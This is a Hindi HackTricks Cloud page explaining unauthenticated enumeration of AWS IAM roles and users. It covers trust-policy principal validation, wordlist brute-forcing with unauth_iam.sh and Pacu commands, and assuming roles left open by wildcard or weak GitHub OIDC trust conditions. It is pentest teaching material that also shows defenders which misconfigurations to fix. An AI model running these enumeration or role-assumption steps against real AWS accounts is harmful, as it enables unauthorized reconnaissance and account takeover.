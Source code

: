 # AWS - IAM & STS Unauthenticated Enum

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks को समर्थन दें</summary>

* [**सदस्यता योजनाओं**](https://github.com/sponsors/carlospolop) की जाँच करें!
* 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या हमें **Twitter** 🐦 पर **फॉलो** करें [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके।

</details>
{% endhint %}

## किसी खाते में Roles और Usernames को Enumerate करें

### ~~Assume Role Brute-Force~~

{% hint style="danger" %}
**यह तकनीक अब काम नहीं करती** क्योंकि यदि role मौजूद है या नहीं, तो आपको हमेशा यह त्रुटि मिलती है:

`An error occurred (AccessDenied) when calling the AssumeRole operation: User: arn:aws:iam::947247140022:user/testenv is not authorized to perform: sts:AssumeRole on resource: arn:aws:iam::429217632764:role/account-balanceasdas`

आप इसे **परीक्षण कर सकते हैं**:

`aws sts assume-role --role-arn arn:aws:iam::412345678909:role/superadmin --role-session-name s3-access-example`
{% endhint %}

आवश्यक अनुमतियों के बिना **role को assume करने का प्रयास** करने पर AWS त्रुटि संदेश ट्रिगर होता है। उदाहरण के लिए, यदि unauthorized है, तो AWS यह संदेश वापस कर सकता है:
```ruby
An error occurred (AccessDenied) when calling the AssumeRole operation: User: arn:aws:iam::012345678901:user/MyUser is not authorized to perform: sts:AssumeRole on resource: arn:aws:iam::111111111111:role/aws-service-role/rds.amazonaws.com/AWSServiceRoleForRDS
```
यह संदेश भूमिका के अस्तित्व की पुष्टि करता है लेकिन यह संकेत देता है कि इसकी assume role नीति आपकी धारणा की अनुमति नहीं देती है। इसके विपरीत, **एक गैर-मौजूद भूमिका को assume करने का प्रयास एक अलग त्रुटि की ओर ले जाता है**:
```less
An error occurred (AccessDenied) when calling the AssumeRole operation: Not authorized to perform sts:AssumeRole
```
दिलचस्प बात यह है कि **मौजूद और गैर-मौजूद भूमिकाओं के बीच अंतर करने की यह विधि** विभिन्न AWS खातों में भी लागू होती है। एक वैध AWS खाता आईडी और लक्षित शब्दसूची के साथ, कोई भी खाते में मौजूद भूमिकाओं को बिना किसी अंतर्निहित सीमाओं का सामना किए सूचीबद्ध कर सकता है।

आप इस [script का उपयोग संभावित प्रिंसिपल्स को सूचीबद्ध करने के लिए कर सकते हैं](https://github.com/RhinoSecurityLabs/Security-Research/tree/master/tools/aws-pentest-tools/assume\_role\_enum) इस समस्या का दुरुपयोग करते हुए।

### Trust Policies: क्रॉस अकाउंट भूमिकाओं और उपयोगकर्ताओं को ब्रूट-फोर्स करना

एक **IAM भूमिका की ट्रस्ट पॉलिसी को कॉन्फ़िगर या अपडेट करना इसमें परिभाषित करना शामिल है कि कौन से AWS संसाधन या सेवाएं उस भूमिका को ग्रहण करने और अस्थायी क्रेडेंशियल प्राप्त करने की अनुमति दी गई हैं**। यदि नीति में निर्दिष्ट संसाधन **मौजूद है**, तो ट्रस्ट पॉलिसी **सफलतापूर्वक** सहेज ली जाती है। हालांकि, यदि संसाधन **मौजूद नहीं है**, तो एक **त्रुटि उत्पन्न होती है**, जो इंगित करती है कि एक अमान्य प्रिंसिपल प्रदान किया गया था।

{% hint style="warning" %}
ध्यान दें कि उस संसाधन में आप एक क्रॉस अकाउंट भूमिका या उपयोगकर्ता निर्दिष्ट कर सकते हैं:

* `arn:aws:iam::acc_id:role/role_name`
* `arn:aws:iam::acc_id:user/user_name`
{% endhint %}

यह एक नीति का उदाहरण है:
```json
{
"Version":"2012-10-17",
"Statement":[
{
"Effect":"Allow",
"Principal":
{
"AWS":"arn:aws:iam::216825089941:role\/Test"
},
"Action":"sts:AssumeRole"
}
]
}
```
#### GUI

यह **त्रुटि** है जो आपको मिलेगी यदि आप **ऐसी भूमिका का उपयोग करते हैं जो मौजूद नहीं है**। यदि भूमिका **मौजूद है**, तो नीति **बिना किसी त्रुटि के सहेजी जाएगी**। (यह त्रुटि अद्यतन के लिए है, लेकिन यह निर्माण के समय भी काम करती है)

![](<../../../.gitbook/assets/image (153).png>)

#### CLI
```bash
### You could also use: aws iam update-assume-role-policy
# When it works
aws iam create-role --role-name Test-Role --assume-role-policy-document file://a.json
{
"Role": {
"Path": "/",
"RoleName": "Test-Role",
"RoleId": "AROA5ZDCUJS3DVEIYOB73",
"Arn": "arn:aws:iam::947247140022:role/Test-Role",
"CreateDate": "2022-05-03T20:50:04Z",
"AssumeRolePolicyDocument": {
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::316584767888:role/account-balance"
},
"Action": [
"sts:AssumeRole"
]
}
]
}
}
}

# When it doesn't work
aws iam create-role --role-name Test-Role2 --assume-role-policy-document file://a.json
An error occurred (MalformedPolicyDocument) when calling the CreateRole operation: Invalid principal in policy: "AWS":"arn:aws:iam::316584767888:role/account-balanceefd23f2"
```
You can automate this process with [https://github.com/carlospolop/aws\_tools](https://github.com/carlospolop/aws\_tools)

* `bash unauth_iam.sh -t user -i 316584767888 -r TestRole -w ./unauth_wordlist.txt`

या [Pacu](https://github.com/RhinoSecurityLabs/pacu) का उपयोग करके:

* `run iam__enum_users --role-name admin --account-id 229736458923 --word-list /tmp/names.txt`
* `run iam__enum_roles --role-name admin --account-id 229736458923 --word-list /tmp/names.txt`
* उदाहरण में उपयोग किया गया `admin` role **आपके खाते में एक role है जिसे pacu द्वारा impersonate किया जाना है** उन नीतियों को बनाने के लिए जिन्हें enumeration के लिए बनाने की आवश्यकता है

### Privesc

यदि role गलत तरीके से कॉन्फ़िगर किया गया था और किसी को भी इसे assume करने की अनुमति देता है:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": "sts:AssumeRole"
}
]
}
```
अटैकर इसे मान सकता है।

## Third Party OIDC Federation

कल्पना करें कि आप एक **Github Actions workflow** पढ़ने में सफल हो जाते हैं जो **AWS** के अंदर एक **role** को एक्सेस कर रहा है।\
यह ट्रस्ट निम्नलिखित **trust policy** के साथ एक role को एक्सेस दे सकता है:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"Federated": "arn:aws:iam::<acc_id>:oidc-provider/token.actions.githubusercontent.com"
},
"Action": "sts:AssumeRoleWithWebIdentity",
"Condition": {
"StringEquals": {
"token.actions.githubusercontent.com:aud": "sts.amazonaws.com"
}
}
}
]
}
```
यह ट्रस्ट पॉलिसी सही हो सकती है, लेकिन **अधिक शर्तों की कमी** आपको इसे अविश्वास करने के लिए मजबूर कर देनी चाहिए।\
यह इसलिए है क्योंकि पिछली भूमिका को **Github Actions से कोई भी** ग्रहण कर सकता है! आपको शर्तों में अन्य चीजें भी निर्दिष्ट करनी चाहिए जैसे कि org name, repo name, env, brach...

एक और संभावित गलत कॉन्फ़िगरेशन है **एक शर्त जोड़ना** जैसे निम्नलिखित:
```json
"StringLike": {
"token.actions.githubusercontent.com:sub": "repo:org_name*:*"
}
```
ध्यान दें कि **wildcard** (\*) **colon** (:) से पहले है। आप **org\_name1** जैसी एक org बना सकते हैं और Github Action से **role assume** कर सकते हैं।

## संदर्भ

* [https://www.youtube.com/watch?v=8ZXRw4Ry3mQ](https://www.youtube.com/watch?v=8ZXRw4Ry3mQ)
* [https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/](https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/)

{% hint style="success" %}
AWS Hacking सीखें और अभ्यास करें:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking सीखें और अभ्यास करें: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks को समर्थन दें</summary>

* [**subscription plans**](https://github.com/sponsors/carlospolop) देखें!
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) या [**telegram group**](https://t.me/peass) में शामिल हों या हमें **Twitter** 🐦 पर **फॉलो** करें [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके।

</details>
{% endhint %}
